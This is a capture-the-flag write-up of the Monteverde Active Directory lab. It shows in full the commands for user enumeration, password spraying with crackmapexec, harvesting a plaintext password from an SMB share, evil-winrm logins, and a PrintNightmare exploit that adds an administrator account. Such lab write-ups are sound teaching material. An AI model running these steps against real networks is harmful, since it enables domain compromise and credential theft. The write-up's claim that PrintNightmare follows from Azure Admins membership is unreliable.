 # Monteverde - Writeup

## Initial Enumeration

### Port Scanning
A comprehensive port scan revealed standard Active Directory services:
```
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Microsoft DNS
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP
445/tcp   open  microsoft-ds  Microsoft Windows 7 - 10 microsoft-ds
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
```

### Domain Information
Using enum4linux, I gathered information about the domain:
```
Domain Name: MEGABANK
Domain SID: S-1-5-21-391775091-850290835-3566037492
```

### User Enumeration
The enum4linux output revealed several domain users:
```
user:[Guest] rid:[0x1f5]
user:[AAD_987d7f2f57d2] rid:[0x450]
user:[mhope] rid:[0x641]
user:[SABatchJobs] rid:[0xa2a]
user:[svc-ata] rid:[0xa2b]
user:[svc-bexec] rid:[0xa2c]
user:[svc-netapp] rid:[0xa2d]
user:[dgalanos] rid:[0xa35]
user:[roleary] rid:[0xa36]
user:[smorgan] rid:[0xa37]
```

I also noted interesting group memberships:
```
Group: 'HelpDesk' (RID: 2611) has member: MEGABANK\roleary
Group: 'Operations' (RID: 2609) has member: MEGABANK\smorgan
Group: 'Trading' (RID: 2610) has member: MEGABANK\dgalanos
Group: 'Azure Admins' (RID: 2601) has member: MEGABANK\Administrator
Group: 'Azure Admins' (RID: 2601) has member: MEGABANK\AAD_987d7f2f57d2
Group: 'Azure Admins' (RID: 2601) has member: MEGABANK\mhope
```

The Azure Admins group was particularly interesting as a potential privilege escalation path.

## Gaining Initial Access

### Password Spraying
I created a list of usernames from the enum4linux output:
```bash
echo "Guest
AAD_987d7f2f57d2
mhope
SABatchJobs
svc-ata
svc-bexec
svc-netapp
dgalanos
roleary
smorgan" > users.txt
```

First, I attempted to identify users vulnerable to AS-REP Roasting, but this was unsuccessful:
```bash
GetNPUsers.py megabank.local/ -usersfile users.txt -no-pass -dc-ip 10.129.228.111
```

I then tried a password spraying attack, using each username as a potential password:
```bash
crackmapexec smb 10.129.228.111 -u users.txt -p users.txt --no-bruteforce
```

This revealed valid credentials:
- **Username**: SABatchJobs
- **Password**: SABatchJobs

### SMB Enumeration
With the discovered credentials, I connected to the SMB service:
```bash
smbclient.py megabank.local/SABatchJobs:SABatchJobs@10.129.228.111
```

I discovered several shares and explored them:
```bash
smbclient //10.129.228.111/users$ -U megabank.local/SABatchJobs
```

Using the `tree` command to recursively list directories, I found an interesting file:
```
\users\mhope\azure.xml
```

I downloaded and examined this file:
```bash
get mhope/azure.xml
cat azure.xml
```

This file contained credentials for the user mhope:
```xml
<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
  <Obj RefId="0">
    <TN RefId="0">
      <T>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</T>
      <T>System.Object</T>
    </TN>
    <ToString>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</ToString>
    <Props>
      <S N="Password">4n0therD4y@n0th3r</S>
    </Props>
  </Obj>
</Objs>
```

## Lateral Movement

### Accessing mhope Account
Using the discovered password, I attempted to authenticate as mhope:
```bash
evil-winrm -i 10.129.228.111 -u mhope -p '4n0therD4y@n0th3r'
```

This provided access as the mhope user, who was a member of the Azure Admins group.

## Privilege Escalation

### Exploiting PrintNightmare
After researching privilege escalation vectors for Azure Admins, I identified that the target was vulnerable to PrintNightmare (CVE-2021-1675).

I uploaded the PrintNightmare exploit to the target:
```bash
upload CVE-2021-1675.ps1
```

Then executed the exploit to create a new administrative user:
```powershell
Import-Module ./CVE-2021-1675.ps1
Invoke-Nightmare -NewUser "hacker" -NewPassword "Dolphin1"
```

### Gaining Administrative Access
With the newly created administrative user, I established a new WinRM session:
```bash
evil-winrm -i 10.129.228.111 -u hacker -p 'Dolphin1'
```

This provided me with administrative access to the domain controller, successfully completing the challenge.

A quick check confirmed my administrative privileges:
```powershell
whoami /all
```

The output showed that my new user was a member of the local Administrators group.